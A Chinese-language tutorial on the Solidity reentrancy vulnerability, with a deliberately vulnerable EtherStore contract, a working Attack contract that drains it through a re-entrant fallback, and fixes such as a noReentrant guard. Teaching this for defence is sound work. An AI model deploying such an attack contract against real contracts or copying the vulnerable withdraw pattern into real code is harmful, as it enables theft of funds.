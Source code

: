 重入漏洞
==

漏洞介绍
--

重入攻击(Reentrancy Attack)首次出现于以太坊，对应的真实攻击为 The DAO 攻击，此次攻击还导致了原来的以太坊分叉成以太经典(ETC)和现在的以太坊(ETH)。由于项目方采用的转账模型为先给用户发送转账然后才对用户的余额状态进行修改，导致恶意用户可以构造恶意合约，在接受转账的同时再次调用项目方的转账函数。利用这样的方法，导致用户的余额状态一直没有被改变，却能一直提取项目方资金，最终导致项目方资金被耗光。  


漏洞复现
--

1.部署一个包含重入漏洞的合约<code>EtherStore</code>  

    contract EtherStore {
        mapping(address => uint) public balances;

        function deposit() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdraw() public {
            uint bal = balances[msg.sender];
            require(bal > 0);

            (bool sent, ) = msg.sender.call{value: bal}("");
            require(sent, "Failed to send Ether");

            balances[msg.sender] = 0;
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
    
2.向<code>EtherStore</code>存入任意ETH，这里存入4个ETH  

![tempsnip](https://user-images.githubusercontent.com/35074461/197673688-924bfb1d-c253-4959-b7a7-b9f4acc3c9e9.png)


3.查看<code>EtherStore</code>余额，为4ETH  

![image](https://user-images.githubusercontent.com/35074461/197672627-c8e42e69-9233-4589-a15f-d722bd759608.png)

4.部署攻击合约<code>Attack</code>，地址填入<code>EtherStore</code>合约地址

    contract Attack {
        EtherStore public etherStore;

        constructor(address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }

        // Fallback is called when EtherStore sends Ether to this contract.
        fallback() external payable {
            if (address(etherStore).balance >= 1 ether) {
                etherStore.withdraw();
            }
        }

        function attack() external payable {
            require(msg.value >= 1 ether);
            etherStore.deposit{value: 1 ether}();
            etherStore.withdraw();
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
5.使用<code>attack()</code>方法，向<code>EtherStore</code>合约转账1个ETH  

![image](https://user-images.githubusercontent.com/35074461/197674208-c5e45461-c663-4650-8853-58f31a713541.png)  

6.查看<code>Attack</code>合约余额发现为5个ETH，获得了4个ETH

![image](https://user-images.githubusercontent.com/35074461/197674478-73777950-7047-4ac9-b8ed-75d520101978.png)

漏洞分析
--

在<code>Attack</code>合约中,<code>attack()</code>方法会先向<code>EtherStore</code>合约转账一个ETH  

    etherStore.deposit{value: 1 ether}();  
    
然后请求<code>EtherStore</code>合约的<code>withdraw()</code>方法进行退款  

    etherStore.withdraw();  
    
漏洞出现在<code>withdraw()</code>方法中，合约会先判断账户是否有余额，如果有余额就使用call方法进行退款  

    (bool sent, ) = msg.sender.call{value: bal}("");  
    
然后才将账户余额置零  

    balances[msg.sender] = 0;  

当<code>Attack</code>合约收到转帐时会触发<code>fallback()</code>回调函数，在回调函数中会判断<code>EtherStore</code>合约是否还有余额，有的话就继续调用<code>withdraw()</code>方法  

    if (address(etherStore).balance >= 1 ether) {
        etherStore.withdraw();
    }

因为对攻击合约余额的判断在退款之后，所以会形成递归，每次退回1ETH直至<code>EtherStore</code>合约余额为空  

加固建议
--

1.状态变更需要在外部合约调用前完成  

2.使用防止重入的函数修饰  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.13;

    contract ReEntrancyGuard {
        bool internal locked;

        modifier noReentrant() {
            require(!locked, "No re-entrancy");
            locked = true;
            _;
            locked = false;
        }
    }
